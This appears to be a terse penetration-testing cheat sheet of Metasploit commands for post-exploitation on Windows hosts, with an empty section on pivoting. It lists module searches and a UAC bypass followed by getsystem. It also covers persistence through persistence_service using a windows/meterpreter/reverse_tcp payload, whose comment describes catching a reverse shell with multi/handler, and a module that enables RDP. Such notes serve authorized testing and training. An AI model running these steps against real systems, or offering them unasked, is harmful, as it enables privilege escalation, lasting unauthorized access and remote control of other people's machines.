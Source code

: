 ```bash
```

## Post exp modules
```
# searching for post exp modules to run
search upgrade platform:windows
search migrate platform:windows
search enum_applications
search enum_patches
search enum_shares
```

### Bypassing UAC
```bash
# useful when you are in localadmin group but you arent system
search bypassuac
use bypassuac_injection
set payload $APPROPRIATE_BIT_PAYLOAD_ARCH
set target $APPROPRIATE_BIT_ARCHITECTURE

# after using the bypass, getsystem
getsystem
```

#### Windows  Persistence 
```bash
search platform:windows persistence
use persistence_service
# it uses only 32bit staged payloads so use windows/meterpreter/reverse_tcp  - Whenever you setup a multi/handler to the same payload, lhost and lport you will receive a shell from the target

# Enabling RDP
use post/windows/manage/enable_rdp
```

#### Pivoting 
```bash 

```
